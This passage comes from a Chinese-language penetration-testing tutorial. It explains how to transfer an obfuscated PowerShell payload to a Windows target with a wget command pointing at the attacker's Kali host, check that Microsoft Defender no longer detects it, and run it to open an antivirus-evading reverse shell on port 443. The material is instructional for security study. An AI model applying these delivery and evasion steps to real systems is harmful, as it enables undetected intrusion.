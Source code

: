 图 9.31：移动文件并托管 Python Web 服务器

在目标 Windows 机器上，我们只需从 PowerShell 运行`wget http://<yourkaliIP>/filename.ps1 -Outfile anyfolder`。

现在，最终脚本已经准备好接受杀毒软件扫描。在这个例子中，我们将使用微软 Defender 来扫描脚本，如*图 9.32*所示。它应该不会找到任何恶意内容。为了查看差异，您可以先尝试使用未混淆的原始脚本，您将看到微软 Defender 的警报，标记其为恶意并将其隔离。

![](img/B17765_09_32.png)

图 9.32：微软 Windows Defender 确认未发现新威胁

最后一步，一旦脚本被传送到目标，攻击者现在可以为目标打开端口进行连接。在这种情况下，端口`443`是在最初的有效负载中设置的。一旦运行此 PowerShell 脚本，无论是通过 PowerShell 打开它还是直接运行，它都应当打开一个直接的反向 Shell，连接到攻击者的系统，且不会被任何杀毒软件/EDR 拦截，如*图 9.33*所示：

![](img/B18209_09_33.png)

